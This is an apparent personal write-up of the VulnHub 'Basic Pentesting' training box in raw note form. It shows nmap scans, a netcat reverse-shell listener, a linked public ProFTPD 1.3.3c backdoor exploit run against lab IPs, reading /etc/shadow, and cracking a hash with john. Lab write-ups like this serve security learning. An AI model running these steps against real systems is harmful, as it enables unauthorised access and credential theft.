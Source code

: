 ```yaml
---
layout: post
title:  "VulnHub: Basic Pentesting Writeup"
categories: ctf-writeup
tags: ctf writeup vulnhub
---
```


I prefer to use s1ren's template when working through a box. It gives me a nice outline and allows me to stay organized. Below is what my template lookes like after filled out. This was one of the first vulnhub boxes I completed so my notes are really bad. Also, this is my raw plaintext notes with not real formatting applied. I will be the box soon and posting my updated notes here to demonstrate the difference. At the very end I've also provided a list of resources and tools used on this box.

=========================================================================


192.168.158.128  
Ubuntu 16.04.3 LTS  
hostname: vtcsec  
  
Guest account  
no password  
no sudo  
  
guest-kpippq@vtcsec  
marlinspike  
  
─$ sudo nmap 192.168.158.128 -sT  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-04 08:58 EDT  
Nmap scan report for 192.168.158.128  
Host is up (0.0068s latency).  
Not shown: 997 filtered tcp ports (no-response)  
PORT   STATE SERVICE  
21/tcp open  ftp  
22/tcp open  ssh  
80/tcp open  http  
  
  
21  
ProFTPD 1.3.3c Server  
Anonymous login ok, send your complete email address as your password  
  
80  
Apache/2.4.18 (Ubuntu) Server at 192.168.158.128 Port 80  
  
dirbuster \usr\share\wordlists\  
  
22  
ssh guest@ *need password*  
  
======= restarted machine  
  
└─$ sudo nmap 192.168.158.128 -sT -O -sV  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-04 09:40 EDT  
Nmap scan report for 192.168.158.128  
Host is up (0.00078s latency).  
Not shown: 997 filtered tcp ports (no-response)  
PORT   STATE SERVICE VERSION  
21/tcp open  ftp     ProFTPD 1.3.3c  
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)  
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))  
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port  
Device type: WAP|general purpose  
Running: Actiontec embedded, Linux 2.4.X  
OS CPE: cpe:/h:actiontec:mi424wr-gen3i cpe:/o:linux:linux_kernel cpe:/o:linux:linux_kernel:2.4.37  
OS details: Actiontec MI424WR-GEN3I WAP, DD-WRT v24-sp2 (Linux 2.4.37)  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel  

=== shutdown machine ===  
dirbuster taking too long  
hydra taking too long against marlinspike  
need vulners  


---------------------

sudo nmap 192.168.158.131-sCV -T4 -p-  

└─$ sudo nmap 192.168.158.131 -sCV -T4 -p-  
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-13 20:45 EDT  
Nmap scan report for 192.168.158.131  
Host is up (0.0012s latency).  
Not shown: 65532 closed tcp ports (reset)  
PORT   STATE SERVICE VERSION  
21/tcp open  ftp     ProFTPD 1.3.3c  
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)  
| ssh-hostkey:  
|   2048 d6:01:90:39:2d:8f:46:fb:03:86:73:b3:3c:54:7e:54 (RSA)  
|   256 f1:f3:c0:dd:ba:a4:85:f7:13:9a:da:3a:bb:4d:93:04 (ECDSA)  
|_  256 12:e2:98:d2:a3:e7:36:4f:be:6b:ce:36:6b:7e:0d:9e (ED25519)  
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))  
|_http-server-header: Apache/2.4.18 (Ubuntu)  
|_http-title: Site doesn't have a title (text/html).  
MAC Address: 00:0C:29:43:6B:30 (VMware)  
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 57.89 seconds  
  
  
  
https://github.com/shafdo/ProFTPD-1.3.3c-Backdoor_Command_Execution_Automated_Script/blob/main/proFTPD_1.3.3c_exploit.py  
  
started nc listener  (nc -lvnp 1234)  
ran proFTPD to get shell (python3 proFTPD_1.3.3c_exploit.py 192.168.158.130 192.168.158.131)  
	less /etc/shadow to see users and hashed passwds  
used john to crack password hash (john marlinspike_hash.txt)  
  
=========================================================================  
  
Resources used:  
s1ren's template  
s1ren's linux priv esc cheatsheet  
  
Tools used:  
Nmap  
dirbuster  
searchsploit  
ssh  
netcat  
https://github.com/shafdo/ProFTPD-1.3.3c-Backdoor_Command_Execution_Automated_Script/  
